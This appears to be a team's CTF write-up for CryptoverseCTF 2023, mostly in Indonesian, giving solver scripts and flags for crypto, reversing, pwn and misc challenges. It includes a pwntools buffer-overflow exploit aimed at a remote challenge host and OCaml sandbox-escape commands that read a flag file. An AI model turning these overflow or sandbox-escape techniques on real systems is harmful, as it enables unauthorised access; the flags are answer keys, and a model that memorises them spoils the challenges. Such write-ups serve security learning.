



# CryptoverseCTF 2023

Team: ACTFA

## Overview

```
Title                      Category             Points  Flag
-------------------------- -------------------  ------- -----------------------------
Warmup 1				   Crypto  				173		cvctf
Warmup 2 				   Crypto 				121		cvctf
Baby AES 				   Crypto 				222		cvctf
Acceptance	               Pwn			        323     cvctf
Simple Checkin			   Reverse				260		cvctf
Micro Assembly			   Reverse				408		cvctf
The Cyber Heist            Forensic             308     cvctf
OJail					   Misc					371		cvctf
Survey					   Misc					100		cvctf
Sanity Check 			   Misc					100		cvctf
```

## Crypto : Warmup 1 - 173 Points

**Challenge**
As a tradition, we have several warmup challenges to get you started!

Decode the following ciphertext: ```GmvfHt8Kvq16282R6ej3o4A9Pp6MsN```

Remember: [CyberChef](https://gchq.github.io/CyberChef/) is your friend. Another great cipher decoding tool is [Ciphey](https://github.com/Ciphey/Ciphey).

**Solution**
Decode menggunakan Ciphey, atau menggunakan CyberChef dengan formula ROT13 > From Base58

**Flag**
```
cvctf{base58_with_rot}
```

## Crypto : Warmup 2 - 121 Points

**Challenge**
This cipher is invented by French cryptographer Felix Delastelle at the end of the 19th century.

Ciphertext: ```SCCGDSNFTXCOJPETGMDNG``` 

Hint: ```CTFISGODABEHJKLMNPQRUVWXY```

Convert flag to lowercase. Add { and } to make it a valid flag format. No underscore is needed.

**Solution**
Decode menggunakan [Bifid Decoder](https://www.dcode.fr/bifid-cipher) dengan encryption grid adalah Hint.

**Flag**
```
cvctf{funbifiddecoding}
```

## Crypto : Baby AES - 222 Points

**Challenge**
Simple AES.

[challenge.py](Crypto/Baby-AES/challenge.py)

**Solution**
Dari file challenge.py tersebut, diberikan iv dan juga ct yang merupakan hasil enkripsi flag dengan AES mode CBC. Perlu diketahui bahwa untuk melakukan dekripsi AES mode CBC diperlukan iv dan key, dimana setiap block dari key akan dilakukan XOR dengan iv seperti penjelasan gambar dibawah.


Berdasarkan potongan code enkripsi nya, diketahui key hanya sebanyak 2 bytes dengan 16 block.
```
.......SNIP........
KEY_LEN = 2
BS = 16
key = pad(open("/dev/urandom","rb").read(KEY_LEN), BS)
.......SNIP........
```

Karena key hanya 2 bytes diambil /dev/urandom yang berisi random numbers, maka key tersebut bruteforceable terlebih kita mengetahui pattern dari flag dimulai dari cvctf.

Tinggal buat script looping dengan repeat sebanyak 2 kemudian di padding dengan 16 block dan lakukan decrypt dengan setiap key yang digenerate dan tambahkan kondisi dimana apabila hasil decrypt dimulai dengan 'cvctf' maka key didapatkan.

Berikut solvernya:
```
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import itertools

KEY_LEN = 2
BS = 16

iv = bytes.fromhex("1df49bc50bc2432bd336b4609f2104f7")
ct = bytes.fromhex("a40c6502436e3a21dd63c1553e4816967a75dfc0c7b90328f00af93f0094ed62")

def get_key(iv, ct):
    for key in itertools.product(range(256), repeat=KEY_LEN):
        key = pad(bytes(key),16)
        cipher = AES.new(key, AES.MODE_CBC, iv)
        pt = cipher.decrypt(ct)
        if pt.startswith(b"cvctf"):
            return key

key = get_key(iv, ct)
print(f"[+] Found Key : {key}")

cipher = AES.new(key, AES.MODE_CBC, iv)
pt = unpad(cipher.decrypt(ct), AES.block_size)

print(f"[+] Flag : {pt.decode()}")
```

**Flag**
```
cvctf{b4by_AES_s1mpL3}
```

## Pwn : Acceptance - 323 Points

**Challenge**
I want to go out but I need to ask my mom first. Help me guys!

```nc 20.169.252.240 4000```

[acceptance](Pwn/Acceptance/acceptance)

**Solution**
Diketahui binary acceptance adalah ELF 64 bit. Lakukan decompile file binary tersebut menggunakan ida64. 



Pada fungsi main, terdapat kondisi if accept yang akan menjalankan fungsi print_flag dan kondisi else yang akan print out "Arg! Why don't you help me :((".



Pada fungsi print_flag, flag akan di print out apabila kondisi accept == -1. Dari kondisi tersebut dapat disimpulkan kita harus melakukan overwrite local variable nya agar menjadi -1. Untuk melakukan overwrite local variable tersebut harus mengisi buffer sebanyak 30 bytes + little-endian dari -1. Disini, kami menggunakan 0xFFFFFFFFFFFF (representasi dari -1) dan di convert menjadi little-endian menggunakan packing p64.

Berikut solver nya:
```
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./acceptance')
context.log_level = "debug"

if args.REMOTE:
    p = remote('20.169.252.240', 4000)
else:
    p = process(binary.path)

# gdb.attach(p)

p.recvuntil(b"Help him: ")

payload  = b""
payload += b"A"*30
payload += p64(0xFFFFFFFFFFFF) # Represent -1

p.sendline(payload)
p.stream()
p.close()
```

**Flag**
```
cvctf{Y34h_1_c4N_G0_n0w_tH4nK_y4u}
```

## Reverse : Simple Checkin - 260 Points

**Challenge**
Just a checkin challenge. Nothing special.

[challenge](Reverse/Simple-Checkin/challenge)

**Solution**
Decompile file binary tersebut menggunakan ida64, dan lakukan disassemble fungsi main nya.



Pada fungsi main tersebut, terdapat kondisi XOR yaitu 

```
v18 + i ^ v14[i] != v16[i]
```

Karena XOR reversible, dan asumsi flag nya adalah dengan reverse XOR tersebut, maka tinggal ambil v14 dan v16 tersebut, lalu lakukan XOR. Output dari XOR kedua variable tersebut adalah sebuah plaintext / flag.

Berikut solver nya:
```
v14 = [_ for _ in range(226)]
v16 = [_ for _ in range(226)]

v14[0] = 11
v16[0] = 104
v14[1] = 125
v16[1] = 11
v14[2] = 172
v16[2] = 207
v14[3] = 168
v16[3] = 220
v14[4] = 5
v16[4] = 99
v14[5] = 239
v16[5] = 148
v14[6] = 30
v16[6] = 119
v14[7] = 215
v16[7] = 136
v14[8] = 140
v16[8] = 237
v14[9] = 148
v16[9] = 228
v14[10] = 31
v16[10] = 112
v14[11] = 235
v16[11] = 135
v14[12] = 155
v16[12] = 244
v14[13] = 42
v16[13] = 77
v14[14] = 182
v16[14] = 223
v14[15] = 128
v16[15] = 250
v14[16] = 58
v16[16] = 95
v14[17] = 57
v16[17] = 102
v14[18] = 57
v16[18] = 95
v14[19] = 95
v16[19] = 48
v14[20] = 147
v16[20] = 225
v14[21] = 95
v16[21] = 0
v14[22] = 112
v16[22] = 3
v14[23] = 70
v16[23] = 51
v14[24] = 225
v16[24] = 130
v14[25] = 185
v16[25] = 209
v14[26] = 60
v16[26] = 99
v14[27] = 59
v16[27] = 90
v14[28] = 118
v16[28] = 41
v14[29] = 44
v16[29] = 64
v14[30] = 72
v16[30] = 39
v14[31] = 174
v16[31] = 192
v14[32] = 106
v16[32] = 13
v14[33] = 215
v16[33] = 136
v14[34] = 75
v16[34] = 56
v14[35] = 162
v16[35] = 214
v14[36] = 191
v16[36] = 205
v14[37] = 193
v16[37] = 168
v14[38] = 238
v16[38] = 128
v14[39] = 186
v16[39] = 221
v14[40] = 100
v16[40] = 59
v14[41] = 187
v16[41] = 210
v14[42] = 187
v16[42] = 213
v14[43] = 183
v16[43] = 232
v14[44] = 182
v16[44] = 194
v14[45] = 198
v16[45] = 174
v14[46] = 73
v16[46] = 32
v14[47] = 224
v16[47] = 147
v14[48] = 179
v16[48] = 236
v14[49] = 35
v16[49] = 64
v14[50] = 133
v16[50] = 237
v14[51] = 88
v16[51] = 61
v14[52] = 161
v16[52] = 194
v14[53] = 13
v16[53] = 102
v14[54] = 243
v16[54] = 154
v14[55] = 33
v16[55] = 79
v14[56] = 170
v16[56] = 245
v14[57] = 204
v16[57] = 175
v14[58] = 74
v16[58] = 34
v14[59] = 2
v16[59] = 99
v14[60] = 46
v16[60] = 66
v14[61] = 176
v16[61] = 220
v14[62] = 212
v16[62] = 177
v14[63] = 140
v16[63] = 226
v14[64] = 73
v16[64] = 46
v14[65] = 61
v16[65] = 88
v14[66] = 165
v16[66] = 137
v14[67] = 126
v16[67] = 28
v14[68] = 142
v16[68] = 251
v14[69] = 21
v16[69] = 97
v14[70] = 217
v16[70] = 134
v14[71] = 65
v16[71] = 40
v14[72] = 152
v16[72] = 236
v14[73] = 239
v16[73] = 176
v14[74] = 144
v16[74] = 253
v14[75] = 52
v16[75] = 93
v14[76] = 169
v16[76] = 206
v14[77] = 15
v16[77] = 103
v14[78] = 124
v16[78] = 8
v14[79] = 76
v16[79] = 19
v14[80] = 69
v16[80] = 39
v14[81] = 123
v16[81] = 30
v14[82] = 110
v16[82] = 49
v14[83] = 149
v16[83] = 244
v14[84] = 58
v16[84] = 101
v14[85] = 128
v16[85] = 231
v14[86] = 205
v16[86] = 162
v14[87] = 123
v16[87] = 20
v14[88] = 226
v16[88] = 134
v14[89] = 159
v16[89] = 192
v14[90] = 60
v16[90] = 72
v14[91] = 204
v16[91] = 165
v14[92] = 106
v16[92] = 7
v14[93] = 248
v16[93] = 157
v14[94] = 103
v16[94] = 56
v14[95] = 119
v16[95] = 3
v14[96] = 243
v16[96] = 156
v14[97] = 168
v16[97] = 247
v14[98] = 85
v16[98] = 57
v14[99] = 101
v16[99] = 0
v14[100] = 21
v16[100] = 116
v14[101] = 167
v16[101] = 213
v14[102] = 135
v16[102] = 233
v14[103] = 203
v16[103] = 148
v14[104] = 137
v16[104] = 232
v14[105] = 29
v16[105] = 127
v14[106] = 207
v16[106] = 160
v14[107] = 209
v16[107] = 164
v14[108] = 27
v16[108] = 111
v14[109] = 121
v16[109] = 38
v14[110] = 231
v16[110] = 134
v14[111] = 125
v16[111] = 8
v14[112] = 92
v16[112] = 40
v14[113] = 240
v16[113] = 159
v14[114] = 251
v16[114] = 150
v14[115] = 9
v16[115] = 104
v14[116] = 74
v16[116] = 62
v14[117] = 69
v16[117] = 44
v14[118] = 7
v16[118] = 105
v14[119] = 116
v16[119] = 19
v14[120] = 205
v16[120] = 146
v14[121] = 127
v16[121] = 11
v14[122] = 152
v16[122] = 240
v14[123] = 11
v16[123] = 98
v14[124] = 170
v16[124] = 217
v14[125] = 4
v16[125] = 91
v14[126] = 14
v16[126] = 126
v14[127] = 112
v16[127] = 2
v14[128] = 34
v16[128] = 77
v14[129] = 17
v16[129] = 114
v14[130] = 156
v16[130] = 249
v14[131] = 114
v16[131] = 1
v14[132] = 62
v16[132] = 77
v14[133] = 124
v16[133] = 67
v14[134] = 134
v16[134] = 223
v14[135] = 28
v16[135] = 115
v14[136] = 33
v16[136] = 84
v14[137] = 110
v16[137] = 49
v14[138] = 24
v16[138] = 117
v14[139] = 78
v16[139] = 39
v14[140] = 48
v16[140] = 87
v14[141] = 59
v16[141] = 83
v14[142] = 15
v16[142] = 123
v14[143] = 42
v16[143] = 117
v14[144] = 38
v16[144] = 72
v14[145] = 111
v16[145] = 10
v14[146] = 184
v16[146] = 221
v14[147] = 142
v16[147] = 234
v14[148] = 76
v16[148] = 19
v14[149] = 127
v16[149] = 11
v14[150] = 34
v16[150] = 77
v14[151] = 239
v16[151] = 176
v14[152] = 99
v16[152] = 7
v14[153] = 163
v16[153] = 204
v14[154] = 194
v16[154] = 157
v14[155] = 200
v16[155] = 161
v14[156] = 99
v16[156] = 23
v14[157] = 216
v16[157] = 135
v14[158] = 2
v16[158] = 96
v14[159] = 136
v16[159] = 237
v14[160] = 25
v16[160] = 122
v14[161] = 91
v16[161] = 58
v14[162] = 120
v16[162] = 13
v14[163] = 122
v16[163] = 9
v14[164] = 57
v16[164] = 92
v14[165] = 140
v16[165] = 211
v14[166] = 191
v16[166] = 215
v14[167] = 195
v16[167] = 166
v14[168] = 25
v16[168] = 107
v14[169] = 93
v16[169] = 56
v14[170] = 135
v16[170] = 216
v14[171] = 154
v16[171] = 243
v14[172] = 217
v16[172] = 170
v14[173] = 162
v16[173] = 253
v14[174] = 234
v16[174] = 139
v14[175] = 127
v16[175] = 32
v14[176] = 253
v16[176] = 141
v14[177] = 208
v16[177] = 177
v14[178] = 249
v16[178] = 144
v14[179] = 182
v16[179] = 216
v14[180] = 247
v16[180] = 145
v14[181] = 110
v16[181] = 27
v14[182] = 173
v16[182] = 193
v14[183] = 175
v16[183] = 240
v14[184] = 93
v16[184] = 53
v14[185] = 216
v16[185] = 189
v14[186] = 202
v16[186] = 178
v14[187] = 41
v16[187] = 19
v14[188] = 143
v16[188] = 188
v14[189] = 181
v16[189] = 135
v14[190] = 15
v16[190] = 110
v14[191] = 189
v16[191] = 140
v14[192] = 206
v16[192] = 248
v14[193] = 248
v16[193] = 154
v14[194] = 157
v16[194] = 174
v14[195] = 203
v16[195] = 170
v14[196] = 24
v16[196] = 47
v14[197] = 160
v16[197] = 197
v14[198] = 143
v16[198] = 234
v14[199] = 206
v16[199] = 168
v14[200] = 48
v16[200] = 8
v14[201] = 119
v16[201] = 19
v14[202] = 95
v16[202] = 58
v14[203] = 138
v16[203] = 187
v14[204] = 235
v16[204] = 217
v14[205] = 10
v16[205] = 60
v14[206] = 115
v16[206] = 64
v14[207] = 218
v16[207] = 226
v14[208] = 158
v16[208] = 175
v14[209] = 97
v16[209] = 83
v14[210] = 127
v16[210] = 81
v14[211] = 81
v16[211] = 20
v14[212] = 32
v16[212] = 78
v14[213] = 105
v16[213] = 3
v14[214] = 16
v16[214] = 127
v14[215] = 105
v16[215] = 16
v14[216] = 241
v16[216] = 217
v14[217] = 38
v16[217] = 73
v14[218] = 158
v16[218] = 236
v14[219] = 125
v16[219] = 34
v14[220] = 247
v16[220] = 153
v14[221] = 6
v16[221] = 105
v14[222] = 10
v16[222] = 126
v14[223] = 176
v16[223] = 153
v14[224] = 95
v16[224] = 126
v14[225] = 34
v16[225] = 95


for i in range(226):
    flag = v14[i] ^ v16[i]
    print(chr(flag), end="")
```

**Flag**
```
cvctf{i_apologize_for_such_a_long_string_in_this_checkin_challenge,but_it_might_be_a_good_time_to_learn_about_automating_this_process?You_might_need_to_do_it_because_here_is_a_painful_hex:32a16b3a7eef8de1263812.Enjoy(or_not)!}
```

## Reverse : Micro Assembly - 408 Points

**Challenge**
A special message is computed out of this short piece of assembly. Wrap the message you got in cvctf{}.

[file.asm](Reverse/Micro-Assembly/file.asm)

**Solution**
Dari file assembly tersebut, diketahui bahwa assembly tersebut hanya melakukan operasi aritmatika dasar serta left shift operator. Lakukan convert assembly tersebut ke python. Referensi dari [sini](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html) dan [ini](https://cs61.seas.harvard.edu/site/2018/Asm1/) serta Googling.

Berikut solver nya:
```
flag = [
    3, # MOV  $3, -4(%BP)
    286, # MOV  $286, -8(%BP)
    66, # MOV  $66, -12(%BP)
    228, # MOV  $228, -16(%BP)
    16, # MOV  $16, -20(%BP)
    16, # MOV  $16, -24(%BP)
    154, # MOV  $154, -28(%BP)
]

# @if0:
#    DIV  -28(%BP), $2, %0
#    CMP  %12, $0
#    JNE  @false0
if (flag[6] / 2 != 0): # @false0
    # @true0:
    #    DIV  -28(%BP), $2, %0
    #    MOV  %0, -28(%BP)
    #    JMP  @exit0
    flag[6] = flag[6] / 2
else:
    pass

# @exit0:
#    MUL  -24(%BP), $3, %0
#    ADD  %0, $1, %0
#    MOV  %0, -24(%BP)
#    SHL  -20(%BP), $2, %0
#    ADD  %0, $3, %0
#    MOV  %0, -20(%BP)
flag[5] = (flag[5] * 3) + 1
flag[4] = (flag[4] << 2) + 3

# @if1:
#    DIV  -16(%BP), $3, %0
#    CMP  %12, $1
#    JNE  @false1
if (flag[3] / 3 == 1):
    # @true1:
    #    SUB  -16(%BP), $1, %0
    #    DIV  %0, $3, %0
    #    MOV  %0, -16(%BP)
    #    JMP  @exit1
    flag[3] = (flag[3] - 1) / 3
else:
    # @false1:
    #     DIV  -16(%BP), $2, %0
    #     MOV  %0, -16(%BP)
    flag[3] = flag[3] / 2

# @exit1:
#    SUB  -12(%BP), $2, %0
#    MOV  %0, -12(%BP)
flag[2] = flag[2] - 2

# @if2:
#    DIV  -8(%BP), $3, %0
#    CMP  %12, $1
#    JNE  @false2
if (flag[1] / 3 == 1):
    # @true2:
    #     SUB  -8(%BP), $1, %0
    #     DIV  %0, $3, %0
    #     MOV  %0, -8(%BP)
    #     JMP  @exit2
    flag[1] = (flag[1] - 1) / 3
else:
    # @false2:
    #     DIV  -8(%BP), $2, %0
    #     MOV  %0, -8(%BP)
    flag[1] = flag[1] / 3 # / 2 # Maybe Wrong, Change it to 3
    
# @exit2:
#    SHL  $11, -4(%BP), %0
#    ADD  %0, $11, %0
#    MOV  %0, -4(%BP)
#    LEA  -28(%BP), %0
#    MOV  %0, %13
#    JMP  @main_exit
flag[0] = (11 << flag[0]) + 11

f = "cvctf{"
for x in flag[::-1]:
    f += chr(int(x))
    print(str(int(x)) + " " + f + " ()" + chr((int(x))))

f += "}"
print(f)

```

## Forensic : The Cyber Heist - 308 Points

**Challenge**
A group of hackers has stolen a sensitive piece of data, and it's up to you to recover it. We only found this USB sniffer capture that was taken during the cyber attack. Can you uncover the message from the hackers left to us?

Note: All alphabetical characters in the flag are lower-case.

**Solution**
Solved by teammates

**Flag**
```
Solved by teammates
```

## Misc : OJail - 371 Points

**Challenge**
Heard people like OCaml, unfortunately Plaid CTF didn't put one. Here's a simple one for you to learn its syntax.

```
nc 20.169.252.240 4201
```

**Solution**
Browsing OCaml command line for system, didapatkan informasi dari [stackoverflow](https://stackoverflow.com/questions/40271646/how-do-i-execute-a-command-using-a-local-program-in-ocaml) bahwa kita bisa menggunakan library Sys. 

Tinggal jalankan : 
```
Sys.command "ls -la";;
Sys.command "cat secret/flag*";;
```

**Flag**
```
cvctf{J41L3d_OOOO-C4mL@@}
```

## Misc : Survey - 100 Points

**Challenge**
This is the survey for CVCTF 2023. Please take some time to let me know anything to improve.

The survey is not eligible for tiebreak so please do it at your own pace! Any comment is greatly appreciated.
Remove all spaces in flag if you have them when copying.

[survey](https://docs.google.com/forms/d/1CpVyJ5zVwEg_Yc8Vu-Goth2effeAMYU8W6lh-CLDt4M)

**Solution**
Tinggal isi survey

**Flag**
```
cvctf{thx_4_playing_cvctf_and_hope_you_enjoy_it}
```

## Misc : Sanity Check - 100 Points

**Challenge**
Welcome to Cryptoverse! Hope you will enjoy your stay here.

This CTF will have main focus on Cryptography and Reverse engineering, with a few challenges from other categories too.

The flag format is ```cvctf{printable_ascii}``` unless otherwise specified. Join our discord for rules, updates, and more! Check ```#announcements``` channel for the flag.

Shout out to our sponsors Zellic and Burp Bounty!

**Solution**
Join Discord dan check channel #announcements

**Flag**
```
cvctf{welcome_to_cvctf_2k23!}
```